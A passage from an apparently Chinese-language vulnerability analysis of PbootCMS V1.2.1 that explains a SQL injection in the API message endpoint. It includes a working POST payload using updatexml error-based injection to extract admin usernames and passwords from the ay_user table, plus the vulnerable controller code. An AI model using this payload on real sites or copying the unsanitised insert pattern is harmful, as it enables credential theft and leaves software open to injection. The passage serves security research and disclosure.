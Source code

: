 这里我把关键代码放出来了，可以看到接收$where以后直接仍进了数据库进行操作造成了注入

**0x10.2 接口注入二**

**0x10.2.1 漏洞利用**


```bash
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg

post:
    contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 111
```

![](images/15892009259566.png)


0x10.2.2 漏洞讲解

文件：PbootCMS-V1.2.1\apps\api\controller\CmsController.php

方法：addmsg(


```php
// 新增留言   注入
    public function addmsg()
    {
        if ($_POST) {
            
            // 读取字段
            if (! $form = $this->model->getFormField(1)) {
                json(0, '接收表单不存在任何字段，请核对后重试！');
            }
            
            // 接收数据
            $mail_body = '';
            foreach ($form as $value) {
                $field_data = post($value->name);
                if ($value->required && ! $field_data) {
                    json(0, $value->description . '不能为空！');
                } else {
                    $data[$value->name] = post($value->name);
                    $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                }
            }
            
            // 设置其他字段
            if ($data) {
                $data['acode'] = get('acode', 'var') ?: $this->lg;
                $data['user_ip'] = ip2long(get_user_ip());
                $data['user_os'] = get_user_os();
                $data['user_bs'] = get_user_bs();
                $data['recontent'] = '';
                $data['status'] = 0;
                $data['create_user'] = 'api';
                $data['update_user'] = 'api';
            }
            
            // 写入数据
            if ($this->model->addMessage($value->table_name, $data)) {
                $this->log('API提交表单数据成功！');
                if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                    $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                    $mail_body .= '<br>来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
```